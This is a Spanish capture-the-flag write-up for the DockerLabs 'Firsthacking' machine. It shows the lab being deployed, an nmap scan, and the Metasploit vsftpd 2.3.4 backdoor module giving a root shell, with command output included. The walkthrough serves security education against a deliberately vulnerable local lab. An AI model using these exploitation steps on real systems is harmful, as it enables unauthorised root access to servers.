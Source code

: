 # Firsthacking DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip firsthacking.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh firsthacking.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 13:15 EST
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.50 seconds
```

Vemos que solo tenemos un puerto abierto que es el `FTP` pero si intentamos entrar de forma anonima, veremos que no nos deja, probemos a buscar algun `exploit` asociado a la version del `FTP`.

## Exploit vsftpd 2.3.4

Si buscamos encontraremos un `exploit` asociado a el, la informacion esta en el siguiente link:

URL = [Exploit vsftpd 2.3.4](https://www.exploit-db.com/exploits/49757)

Vamos a entrar a `Metasploit` para ejecutar el `exploit` desde ese punto.

## Escalate Privileges

### Metasploit

```shell
msfconsole -q
```

Buscamos el `exploit`:

```shell
search vsftpd 2.3.4
```

Info:

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Vemos que hay uno asociado a esa version, por lo que lo seleccionaremos de la siguiente forma:

```shell
use exploit/unix/ftp/vsftpd_234_backdoor
```

Y ahora lo tendremos que configurar poniendo lo siguiente:

```shell
set RHOSTS <IP_VICTIM>
exploit
```

Info:

```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:39909 -> 172.17.0.2:6200) at 2025-02-03 13:19:10 -0500

whoami
root
```

Y con esto veremos que ya seremos el usuario `root`, por lo que habremos terminado la maquina.
